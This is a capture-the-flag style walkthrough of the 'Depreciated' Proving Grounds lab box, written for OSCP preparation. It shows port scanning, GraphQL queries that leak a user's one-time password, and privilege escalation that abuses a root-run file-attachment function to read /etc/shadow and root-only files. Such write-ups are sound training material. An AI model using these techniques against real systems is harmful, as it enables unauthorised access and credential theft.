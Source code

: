 ```yaml
---
title: Depreciated Box on Offensive Security Proving Grounds - OSCP Preparation.
tags: [oscp medium box, PG medium box, enumeration, graphql, misc, privilege escalation, linux]
categories: [OSCP, Proving Grounds]
comments: true
date: 2022-04-06 11:33:00
---
```


Hello,

Depreciated is a Medium box on Proving grounds, I first solved this box in January this year, you can find a PDF version of this blog here on [Github](https://github.com/bing0o/Write-ups/blob/main/Depreciated-PG-Practice.pdf): https://github.com/bing0o/Write-ups/blob/main/Depreciated-PG-Practice.pdf

## Enumeration:
### Nmap:

```bash
 ○ nmap -p- -vvv -T4 --open -Pn -oN nmap-all depreciated.pg
# Nmap 7.92 scan initiated Wed Jan 12 01:12:47 2022 as: nmap -p- -vvv -T4 --open -Pn -oN nmap-all depreciated.pg
Nmap scan report for depreciated.pg (192.168.192.170)
Host is up, received user-set (0.090s latency).
Scanned at 2022-01-12 01:12:47 CET for 112s
Not shown: 62159 closed tcp ports (conn-refused), 3372 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack
80/tcp   open  http    syn-ack
5132/tcp open  unknown syn-ack
8433/tcp open  unknown syn-ack

Read data files from: /usr/bin/../share/nmap
# Nmap done at Wed Jan 12 01:14:39 2022 -- 1 IP address (1 host up) scanned in 112.32 seconds
```

- Port `22` SSH.
- Port `80` HTTP Server.
- Port `5132` CLI Messaging Application.
- Port `8433` Werkzeug httpd 2.0.2 (Python 3.8.10).

### Exploring Open Ports
- Access port `80` and by reading the source code, it shows that there's a Graphql application running on port `8433`:

![image](/assets/img/sample/pg-depreciated/html-code.png)

- Checking on port `5132`:

![image](/assets/img/sample/pg-depreciated/nc-5132.png)

it looks like we need a username and an OTP (One Time Password) to login, we will get back to that later.

- Checking on port `8433`, we already know that we have `/graphql` on that port:

![image](/assets/img/sample/pg-depreciated/graphql.png)

### Getting OTP for User `peter`

- Let's Do Some Enumeration on `graphql`:
- Request:
```json
{
  listUsers
}
```

- Response:
```json
{
  "data": {
    "listUsers": "['peter', 'jason']"
  }
}
```

- Request:
```json
{
  getOTP(username:"peter")
}
```

- Response:
```json
{
  "data": {
    "getOTP": "Your One Time Password is: G8DSr9HGV9AW5lCg"
  }
}
```

Now we have an OTP for the user `peter`: `G8DSr9HGV9AW5lCg`

### Exploring CLI Messaging Application
- Let's try the User and OTP that we have on port `5132`:

![image](/assets/img/sample/pg-depreciated/nc-login.png)

and we are in :D

- the application allows you to list and read some messages, Let's explore it:

![image](/assets/img/sample/pg-depreciated/nc-explore.png)

- We Can't read most of the messages, but It looks like there's one we could read which reveals a password for the user `peter`, let's try to ssh:

![image](/assets/img/sample/pg-depreciated/ssh.png)


## Privilege Escalation:
### Enumeration
- Linpeas didn't give me much Information only that `Graphql` application on port `8433` is  running by root:

![image](/assets/img/sample/pg-depreciated/linpeas.png)

### Reading The Source Code

- Taking a look at the source code which we found on `/opt/depreciated/`.

All the functions seems useless only this one:

```python
def create_message(user):
    for_ = input("for: ")
    description = input("Description: ")
    num = random.randint(1000, 9999)
    author = user
    attachment = input("File: ")

    if attachment and attachment != "none" and os.path.exists(attachment):
        with open(attachment, 'r') as f:
            data = f.read()
        basename = '/opt/depreciated/' + os.path.basename(attachment)

        with open(basename, 'w') as f:
            f.write(data)
    else:
        attachment = "none"
    msg_info = {'id': num, 'author': author, 'description': description, 'for': for_, 'attachment': attachment}
    MESSAGES.append(msg_info)

    with open("/opt/depreciated/messaging/msg.json", 'w') as f:
         json.dump(MESSAGES, f)
```

which allows you to add an attachment file from the system to your message, and the application write the attachments to `/opt/depreciated/<FILE_NAME>`, this means if we attache `/etc/shadow` to a message, we will be able to access the `shadow` file at `/opt/depreciated/shadow` and its gonna be readable.


### Getting root

At first I tried to read `/root/proof.txt` file and it worked:

![image](/assets/img/sample/pg-depreciated/proof.png)

- The Result:
![image](/assets/img/sample/pg-depreciated/read-proof.png)

- Another thing come to my mind is that there's some messages we couldn't read before on port `5132`, let's try and read them:

![image](/assets/img/sample/pg-depreciated/read-msg.png)

The Result:
![image](/assets/img/sample/pg-depreciated/msg-pass.png)

- Switch user to root using that password:

![image](/assets/img/sample/pg-depreciated/root.png)


Happy Hacking!